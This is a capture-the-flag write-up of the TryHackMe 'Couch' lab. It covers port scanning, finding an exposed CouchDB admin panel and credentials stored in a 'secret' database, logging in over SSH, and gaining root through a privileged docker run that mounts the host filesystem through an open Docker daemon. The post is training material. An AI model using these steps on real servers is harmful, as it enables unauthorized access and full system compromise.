 ```yaml
---
title: TryHackMe Couch
date: 2021-07-09T19:22:46+05:30
lastmod: 2021-07-09T19:22:46+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/blog.png
#cover: /img/thm.gif # for tryhackMe

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm
  - couch

draft: false
description: TryHackMe Room couch solved by Animesh Roy. this is a walkthough. Hack into a vulnerable database server that collects and stores data in JSON-based document formats, in this semi-guided challenge.

read more...

---
```

## Couch

## Flags

|Task|Remarks|
|---|---|
|1.1|[flag](#recon)|

---

### Recon

running nmap: (Default)

```bash
┌──(anir0y㉿kali)-[~/share/thm/room/couch]
└─$ sudo nmap -sC -sV -oN nmap/couch 10.10.94.40
[sudo] password for anir0y: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-09 19:26 IST
Nmap scan report for 10.10.94.40
Host is up (0.21s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.79 seconds
```

Nmap All ports:

```bash
┌──(anir0y㉿kali)-[~/share/thm/room/couch]
└─$ sudo nmap -p - -oN nmap/all-ports 10.10.94.40 -T4                        130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-09 19:39 IST
Nmap scan report for 10.10.94.40
Host is up (0.15s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
5984/tcp open  couchdb

Nmap done: 1 IP address (1 host up) scanned in 408.20 seconds
```

### 1.2

What is the database management system installed on the server?

```zsh
┌──(anir0y㉿kali)-[~/share/thm/room/couch]
└─$ sudo nmap -sC -sV -oN nmap/5984 10.10.94.40 -p 5984
...[snip]...

PORT     STATE SERVICE VERSION
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).

```

### 1.3

What port is the database management system running on?

ans is in nmap scan results [Recon](#recon)

### 1.4

What is the version of the management system installed on the server?

Ans is [here?](#13)

### 1.5

What is the path for the web administration tool for this database management system?

Browsing to `http://MACHINE_IP:5984/` gives us the following JSON message:

```zsh
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```

It seems like we can browse the contents of the database server a bit in our browser. If you search on the web on
CouchDB, you will find that the _utils URL will bring the user to the admin panel. Browse to `http://MACHINE_IP:5984/_utils` to see the following web page

![IMG](https://i.imgur.com/UCA3PP5.png)

### 1.6

What is the path to list all databases in the web browser of the database management system?

![img](https://i.imgur.com/mX6dgqb.png)

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

### 1.7

looing in to `db` we found a database named `secret` the content of this DB reveals the creds:

![img](https://i.imgur.com/OHwjid1.png)

### 1.8

using the found creds, we can `SSH` into the box

```zsh
┌──(anir0y㉿kali)-[~/share/thm/room/couch]
└─$ ssh atena@10.10.94.40
The authenticity of host '10.10.94.40 (10.10.94.40)' can't be established.
ECDSA key fingerprint is SHA256:TtfUUNS6Ivob4iQ7X414863lCCc1q2YyzzycIkRTZ3k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.94.40' (ECDSA) to the list of known hosts.
atena@10.10.94.40's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
atena@ubuntu:~$ cat user.txt 
THM{FLAG-Content}
```

### 1.9

Do manual enumeration - check the following for Privilege Escalation:

- Sudo Permissions
- SUID binaries
- Cron Jobs
- Backup files
- History files
- Config files
- Running Processes (ps aux)

By checking the bash history file:

```zsh
atena@ubuntu:~$ cat .bash_history 
[..snip..]
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
[..snip..]
```

Docker sounds intresting, let's see what we can get with it. turns out this mounts the `/` dir of host system in docker `/mnt` location. once you understand this. rest are just starting the docker image, and start looking. I use `find` command to help me here.

* Run docker in privileged mode, to get root access
  
```bash
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

### Root.txt

```bash
~ # find / -name root.txt 
/mnt/root/root.txt

~ # cat /mnt/root/root.txt
THM{REDACTED}
```

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
